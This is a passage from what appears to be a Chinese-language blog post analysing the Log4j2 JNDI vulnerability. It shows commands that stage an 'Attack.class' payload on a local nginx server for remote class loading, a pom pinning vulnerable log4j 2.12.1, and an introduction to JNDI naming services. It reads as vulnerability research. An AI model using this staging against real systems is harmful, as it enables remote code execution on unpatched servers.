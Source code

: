 ```
        }
    }
}
```
本地 nginx 远程代理：
```
mkdir -p ~/opensource/nginx-local-test/html
➜  html tree .
.
├── 50.html
├── Attack.class
└── index.html

0 directories, 3 files
```
将 RMIServer 地址中的 Attack 字节码文件拷贝到 ~/opensource/nginx-local-test/html 目录下，本地启动一个 nginx 服务。
```
docker run -d -p 8000:80 -v ~/opensource/nginx-local-test/html:/usr/share/nginx/html nginx
```
Log4j pom 文件
```
 <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.12.1</version>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.12.1</version>
        </dependency>
    </dependencies>
```

# JNDI

![](/images/2021-12-12-apache-log4j2-security/6.png)

## 简介

JNDI(Java Naming and Directory Interface,Java命名和目录接口)是SUN公司提供的一种标准的Java命名系统接口，JNDI提供统一的客户端API，通过不同的访问提供者接口JNDI服务供应接口(SPI)的实现，由管理者将JNDI API映射为特定的命名服务和目录系统，使得Java应用程序可以和这些命名服务和目录服务之间进行交互。目录服务是命名服务的一种自然扩展。两者之间的关键差别是目录服务中对象不但可以有名称还可以有属性（例如，用户有email地址），而命名服务中对象没有属性。

## 命名服务

命名服务是一种服务，它提供了为给定的数据集创建一个标准名字的能力。它允许把名称同Java对象或资源关联起来，而不必指出对象或资源的物理ID。这类似于字典结构（或者是Java的map结构），该结构中键映射到值。例如在Internet上的域名服务（domain naming service，DNS）就是提供将域名映射到IP地址的命名服务，在打开网站时一般都是在浏览器中输入名字，通过DNS找到相应的IP地址，然后打开。
